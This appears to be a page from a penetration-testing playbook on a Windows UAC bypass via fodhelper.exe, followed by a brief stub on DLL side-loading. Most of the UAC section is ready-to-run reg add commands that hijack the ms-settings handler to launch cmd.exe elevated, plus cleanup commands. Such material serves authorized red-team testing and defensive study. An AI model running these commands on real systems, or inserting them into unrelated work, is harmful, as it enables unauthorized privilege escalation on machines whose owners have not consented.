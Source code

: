## UAC Bypass - via fodhelper.exe

User Account Control is not a security control but can cause issues with execution when attempting privileged operations

Move to a high-integrity execution context via fodhelper.exe and a Registry modification. Fodhelper.exe is one of many unpatched methods for bypassing UAC.

### Prerequisites

- Split-token admin account

### Guidance

Check for the existence of the target registry key. If it exists, note the value so that it can be restored after execution.

```
cmd> reg query HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Modify the registry key and execute fodhelper.exe to obtain an elevated command prompt:

```
cmd> 
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\windows\system32\cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /d "" /f
c:\windows\system32\fodhelper.exe
```

### Cleanup

If the registry existed prior to execution, restore its value:

```
cmd> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v {{ initial_command }} /f
```

Otherwise, delete the key:

```
cmd> reg delete HKCU\Software\Classes\ms-settings\Shell\Open\command /f
```

### References

- https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/
- https://4pfsec.com/offensive-windows-fodhelper-exe/

## DLL Side Loading - General guidance

### Notes

- For an up-to-date list of side-loadable DLLs, refer to https://hijacklibs.net/
